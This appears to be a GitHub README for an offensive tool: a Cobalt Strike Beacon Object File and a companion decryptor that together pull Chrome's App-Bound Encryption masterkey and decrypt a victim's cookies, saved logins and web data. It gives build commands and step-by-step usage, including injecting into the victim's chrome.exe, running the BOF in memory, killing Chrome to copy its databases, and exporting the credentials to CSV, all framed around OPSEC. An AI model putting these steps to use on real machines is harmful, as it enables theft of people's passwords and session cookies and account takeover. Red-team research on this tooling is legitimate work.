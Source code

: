 # chrome-abe-decryption-bof

_A Beacon Object File for decrypting Chrome App-Bound Encryption masterkeys in-memory via Cobalt Strike_

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](LICENSE)  

---

## ⚡️ Introduction & Objective

This is my **first public security project**, created as a proof-of-concept. It packages the work of [xaitax’s Chrome App-Bound Encryption Decryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption/tree/main) into:

1. **A BOF** (`bof/`) for in-memory decryption via Cobalt Strike, preserving OPSEC  
2. **A standalone decryptor EXE** (`decryptor/`) for on-disk key & blob processing  

> **Caveats**  
> - **Profiles not supported** — the BOF always looks in the hard-coded path for `Local State`. You can change the lookup path in `bof/chrome_decrypt.cpp` for your profile folder.  
> - **Chrome-only & Cobalt Strike-only** for now; future versions may target other Chromium browsers (e.g., Edge, Brave).

---

## 📦 Repository Layout

```text
chrome-abe-decryption-bof/
├── bof/              # BOF Visual Studio solution & project  
│   ├── ChromeABEDecryption-BOF.sln  
│   ├── bof.cpp  
│   └── … other project files
├── decryptor/        # Standalone decryptor solution & code    
│   ├── decryptor.cpp  
│   └── sqlite3.c  
├── docs/             # Setup guides, architecture & extended docs  
├── .gitignore        # Ignore build outputs & VS user files  
├── LICENSE           # MIT License  
└── README.md         # ← you are here  
```

---

## 🛠️ Prerequisites

- **Windows** with Visual Studio 2022+ (Desktop C++ workload)  
- **cl.exe**, **bcrypt.lib**, **crypt32.lib** (for decryptor)  
- **Cobalt Strike** (for BOF usage)

---

## 🏗️ Compilation

### 1. BOF

1. Follow the BOF template setup in `docs/setup-bof-vs.md` (based on [chryzsh’s guide](https://github.com/chryzsh/awesome-bof/blob/main/how-to/setup-visual-studio-bof.md)).  
2. Open `bof/ChromeABEDecryption-BOF.sln` in Visual Studio.  
3. Select **x64** and **Release**, then **Build**.  
4. Locate the generated `.o` in your VS source output folder (e.g. `C:\Users\<youruser>\source\repos\x64\Release`).

### 2. Decryptor

In a Developer PowerShell or CMD:

```powershell
cd decryptor
cl /EHsc /std:c++17 decryptor.cpp sqlite3.c /I. /link bcrypt.lib crypt32.lib
```

This produces `decryptor.exe` in the same folder.

---

## 🚀 Usage

### BOF (in-memory on target)

1. **Spawn** a Beacon session in Cobalt Strike.  
2. **Inject** into the **parent** `chrome.exe` process.  
3. Run:
   ```
   inline-execute bof.x64.o
   ```
4. The BOF will dump the **masterkey** to your Beacon console. Save it safely.

> **Note:** Chrome’s parent vs. child processes—always target the original chrome.exe.

### Decryptor (on-attacker-disk / offline)

1. **Kill** Chrome on victim machine to safely copy the `Cookies`, `Login Data`, and `Web Data` files.  
2. Run:
   ```powershell
   decryptor.exe --key <hex32-masterkey> `
     --cookies "C:\Path\To\Cookies" `
     --logins  "C:\Path\To\Login Data" `
     --webdata "C:\Path\To\Web Data"
   ```
3. The tool outputs CSVs for logins, cookies, and web data in the current folder.

---

## 🛣️ Next Steps & Future Development

- **Profile support**: Dynamically enumerate Chrome profiles instead of hard-coded paths.  
- **Multi-browser**: Extend BOF & decryptor to Edge, Brave, and other Chromium-based browsers.  
- **Runbooks & automation**: Build helper scripts and docs to streamline OPSEC-friendly workflows.

---

## 🤝 Contributing

Contributions are welcome! Let me know if you:

- Have an issue  
- Have pull requests  
---

## 📄 License

This project is licensed under the **MIT License**. See [LICENSE](LICENSE) for full text.
